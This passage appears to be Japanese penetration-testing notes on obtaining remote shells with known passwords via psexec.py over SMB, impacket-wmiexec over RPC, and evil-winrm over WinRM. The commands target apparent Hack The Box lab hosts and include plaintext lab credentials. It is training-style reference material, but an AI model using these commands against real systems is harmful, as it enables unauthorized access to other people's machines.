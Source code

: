 

### パスワードでリモートログインする

SMB：管理者権限がない限り、psexec.pyやwmiexec.pyなどのリモートクライアントを使用してシェルを取得することは制限されている

WinRMの場合：ユーザーアカウントが`Remote Management Users`グループの一部であれば、PowerShellベースのシェルを取得することができます

#### 445

```bash
#<ドメイン名>/<ユーザ名>:<パスワード>
psexec.py "active.htb/SVC_TGS:GPPstillStandingStrong2k18"@10.129.219.129
```

#### 135

```bash
/usr/bin/impacket-wmiexec active.htb/SVC_TGS@10.129.219.129 cmd
```

#### 5985

```bash
evil-winrm -i 10.129.219.129 -u active.htb\SVC_TGS -p GPPstillStandingStrong2k18
# ドメイン不要の場合もあり
evil-winrm -i 10.129.192.240 -u svc-alfresco -p s3rvice 
```

※ `Remote Management Users`グループに所属している必要がある。
※ [AD Enume_リモートサーバーからの情報収集](./../ActiveDirectory/ActiveDirectory_enume.md/#リモートサーバーからの情報収集)

※プロトコルによって`\`か`/`かが変わるので注意
